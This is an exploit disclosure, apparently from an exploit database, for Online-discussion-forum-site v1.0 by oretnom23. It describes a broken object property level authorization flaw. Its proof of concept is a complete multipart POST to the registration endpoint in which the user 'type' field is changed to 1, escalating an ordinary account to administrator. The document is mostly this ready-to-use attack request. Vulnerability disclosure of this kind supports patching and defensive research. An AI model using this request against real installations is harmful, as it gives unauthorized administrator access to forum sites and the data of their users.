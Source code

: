 # Exploit Title: Online-discussion-forum-site v1.0 - Broken Object Property Level Authorization(BOPLA)
## Date: 2/1/2024
## Vendor Homepage: https://www.sourcecodester.com/php/15337/online-discussion-forum-site-phpoop-free-source-code.html
## Tested on: Debian Linux, Apache, Mysql
## Vendor: oretnom23
## Version: v1.0
## Exploit Description:
## Online-discussion-forum-site v1.0 suffers from BOPLA - Broken Access Control Vulnerability allowing attackers to change his access type to admin(vertical privilege escalation).

## ---------------------------------POC-----------------------------
```
POST /odfs/classes/Users.php?f=registration HTTP/1.1
...

------WebKitFormBoundary9ihAAP8cxVXmfD7l
Content-Disposition: form-data; name="id"

6
------WebKitFormBoundary9ihAAP8cxVXmfD7l
Content-Disposition: form-data; name="type"

1(CHANGE HERE)
------WebKitFormBoundary9ihAAP8cxVXmfD7l
Content-Disposition: form-data; name="firstname"

user1
------WebKitFormBoundary9ihAAP8cxVXmfD7l
Content-Disposition: form-data; name="middlename"

m
------WebKitFormBoundary9ihAAP8cxVXmfD7l
Content-Disposition: form-data; name="lastname"

h
------WebKitFormBoundary9ihAAP8cxVXmfD7l
Content-Disposition: form-data; name="username"

user1
------WebKitFormBoundary9ihAAP8cxVXmfD7l
Content-Disposition: form-data; name="password"


------WebKitFormBoundary9ihAAP8cxVXmfD7l
Content-Disposition: form-data; name="img"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundary9ihAAP8cxVXmfD7l--
```